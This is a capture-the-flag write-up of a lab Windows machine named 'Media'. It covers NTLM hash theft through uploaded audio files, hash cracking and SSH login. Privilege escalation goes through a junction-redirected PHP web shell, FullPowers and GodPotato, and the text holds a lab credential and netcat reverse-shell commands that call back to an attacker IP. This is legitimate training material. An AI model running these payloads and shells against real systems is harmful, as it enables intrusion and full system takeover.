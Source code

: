 
| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Media        | Medium     | 11/01/2025   | 19/01/2025     |
*Vulnlab.com* 

---

**Learning Points:**
- Using the [**FullPowers**](https://github.com/itm4n/FullPowers/releases/tag/v0.1) tool to automatically recover the default privilege set of a service account, including **`SeAssignPrimaryToken`** and **`SeImpersonate`**.
- Using **symlinks** or **Junctions** to redirect file uploads to the **webroot**, allowing us to execute malicious uploads from the web as the web service account.

---

**Attack Path:**
- Find the upload function in the web application running on port 80.
- Create a malicious audio file using **ntlm_theft** that, when triggered, will send the hash to our SMB server running from **Responder**.
- Upload the audio file, capture the hash, and crack it using **Hashcat**.
- Use the credentials to log in to the machine using **EvilWinRM** and get the user flag.
- Read the source code of the web application and identify the upload path.
- Use **Junctions** to redirect file uploads to the webroot and upload a web shell, then execute it to get a shell as the local service account.
- Use **FullPowers** binary to enable the disabled privileges, such as **SeImpersonatePrivilege**.
- Use **GodPotato** to exploit **SeImpersonatePrivilege**, obtain a system shell, and get the root flag.

---

*Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 11 22:17:22 2025 as: nmap -sC -sV -oA default -Pn 10.10.124.156
Nmap scan report for 10.10.124.156
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 0b:b3:c0:80:40:88:e1:ae:aa:3b:5f:f4:c2:23:c0:0d (RSA)
|   256 e0:80:3f:dd:b1:f8:fc:83:f5:de:d5:b3:2d:5a:4b:39 (ECDSA)
|_  256 b5:32:c0:72:18:10:0f:24:5d:f8:e1:ce:2a:73:5c:1f (ED25519)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: ProMotion Studio
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-11T16:47:49+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=MEDIA
| Not valid before: 2025-01-10T16:39:00
|_Not valid after:  2025-07-12T16:39:00
| rdp-ntlm-info: 
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   DNS_Computer_Name: MEDIA
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-11T16:47:43+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 22:17:50 2025 -- 1 IP address (1 host up) scanned in 28.08 seconds
```

We accessed a landing page on port 80.

<img src="attachments/dbe788f04aff7b7ee29a6eb104a8e256.png" />

Scrolling down, we found an option to upload files.

<img src="attachments/7bfddf3c3e1346853c456218b162d36b.png" />

We used [**ntlm_theft**](https://github.com/Greenwolf/ntlm_theft) to generate malicious audio files so that, when triggered, the NTLM hash would be sent to our **Responder SMB** server.

```
python3 ntlm_theft.py --generate all --server 10.8.4.157 --filename audio
```

<img src="attachments/411caaae194bd5abe4441b0f9f0661b0.png" />

We uploaded the **audio.wax** file to the web application.

<img src="attachments/6aeef418d1338e3a20468024f7b1b9ff.png" />

After some time, we were able to capture the **NTLMv2 hash** of the **`enox`** user.

<img src="attachments/55023368673dd4717587cf54d98a7f46.png" />

We were able to crack the hash using **Hashcat**.

<img src="attachments/d33dae8eb46ebb90b3d7adbca7de2020.png" />

```
enox:1234virus@
```

Since the SSH port was open, we used the credentials and were able to log in via SSH to obtain the user flag.

<img src="attachments/b7642da4f3d8f35e2992424c4a4da2ff.png" />

### Privilege Escalation

We checked the privileges of our user and were not able to find anything interesting.

<img src="attachments/7c22edf13a7a30fb0cbffdd3c138f6a8.png" />

While enumerating local files, we found the source of the web application in **XAMPP**, but we did not have write access to the folder.

<img src="attachments/82d967b3e86e9b29968de15d2c10293d.png" />

While reviewing the source code of **index.php**, we were able to find the upload function and the path.

<img src="attachments/4825175c5694d6ab8879abcede7b5884.png" />

Upload Directory :

<img src="attachments/cec91b7451e40e3cf9bd05735127126d.png" />

We entered the properties for **email** and **name**, then uploaded a simple web shell to the web application.

```php
<?php
system($_REQUEST['cmd']);
?>
```

<img src="attachments/76cbb6d093a5e812be356efd62b6c9cd.png" />

Inside the **md5hash** renamed directory, we found our shell uploaded.

<img src="attachments/1aca7df6e94267c4957455ddc8141a1c.png" />

We then removed the directory and created a junction so that when the file was uploaded, it would be saved in the webroot instead of the original location.

```
mklink /J C:\Windows\Tasks\Uploads\566537929bb692f41c445544ead8f0e8 C:\xampp\htdocs
```

<img src="attachments/1317670f3aae89b692564fc3197df170.png" />

We uploaded the file with the same properties set as before.

<img src="attachments/3a4abf7f1760eb00c2c4d989c581e6fe.png" />

We were able to confirm that our attack worked, and the **shell.php** file was uploaded to the web root.

<img src="attachments/7e0f3ce0816267777b7a2561de46b8cd.png" />

We could now execute code as **`NT AUTHORITY\LOCAL SERVICE`**.

<img src="attachments/0c17ec72d4cdd85d6af64007e2eb3b64.png" />

We created a directory named **temp** in **C:**, uploaded the **Netcat** binary using **wget** in the SSH PowerShell, and then executed it to obtain a shell. We were able to get a shell as **`NT AUTHORITY\LOCAL SERVICE`** on **Eagle**.

<img src="attachments/b0767e0c3e5db8b2175c0cee6ea8530c.png" />

However, we couldn't see any additional privileges.

<img src="attachments/b460158a9ab9d2ec5074e84f2bdcaa1c.png" />

We used a tool called **`FullPowers`**, which automatically recovered the default privilege set of a service account, including **`SeAssignPrimaryToken`** and **`SeImpersonate`**.

```
FullPowers.exe -c "C:\temp\nc64.exe 10.8.4.157 443 -e cmd" -z
```

<img src="attachments/ebafb6559f13eac3cc786b675669c81a.png" />

After executing it, we obtained a shell with **`SeImpersonatePrivilege`** enabled.

<img src="attachments/5cfb38688bab277824d6d6e82c6aad94.png" />

We executed **Godpotato** and were able to get a shell on **Eagle** as **`NT AUTHORITY\SYSTEM`** and obtained the root flag.

```
GodPotato-NET4.exe -cmd "C:\temp\nc64.exe -e cmd.exe 10.8.4.157 1234"
```

<img src="attachments/2059958deea44ef97209d5219948dc70.png" />

<img src="attachments/e39dca1854a28390cff7209f2e3a5186.png" />

----
